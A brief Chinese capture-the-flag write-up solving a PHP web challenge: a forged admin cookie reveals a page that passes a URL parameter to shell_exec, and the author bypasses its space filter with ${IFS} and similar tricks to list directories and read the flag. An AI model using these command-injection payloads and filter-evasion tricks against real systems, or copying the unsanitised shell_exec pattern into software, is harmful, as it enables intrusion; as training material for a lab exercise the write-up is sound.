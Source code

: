#RCE

```php
<?php
	error_reporting(0);
	header("Content-Type:text/html;charset=utf-8");
	highlight_file(__FILE__);
	if($_COOKIE['admin']==1)    {       
		include "../next.php";   }
	else       
		echo "小饼干最好吃啦！";
?>
```

添加 session: admin=1
返回提示 rasalghul.php
查看该文件

```php
<?php
	error_reporting(0);
	highlight_file(__FILE__);
	error_reporting(0);
	if (isset($_GET['url'])) {
		$ip=$_GET['url'];
			if(preg_match("/ /", $ip)){
			    die('nonono');
			}
	$a = shell_exec($ip);
	echo $a;
	}
?>
```

过滤了空格

```txt
在CTF比赛中，命令中空格被过滤的解决方法
{cat,flag.txt}
cat${IFS}flag.txt
cat$IFS$9flag.txt
cat<flag.txt
cat<>flag.txt
kg=$'\x20flag.txt'&&cat$kg
(\x20转换成字符串就是空格，这里通过变量的方式巧妙绕过)

```

这里选择${IFS}替代空格

```
?url=ls${IFS}/
```

得到目录

```
?url=cat${IFS}/fl*
```

得到 flag
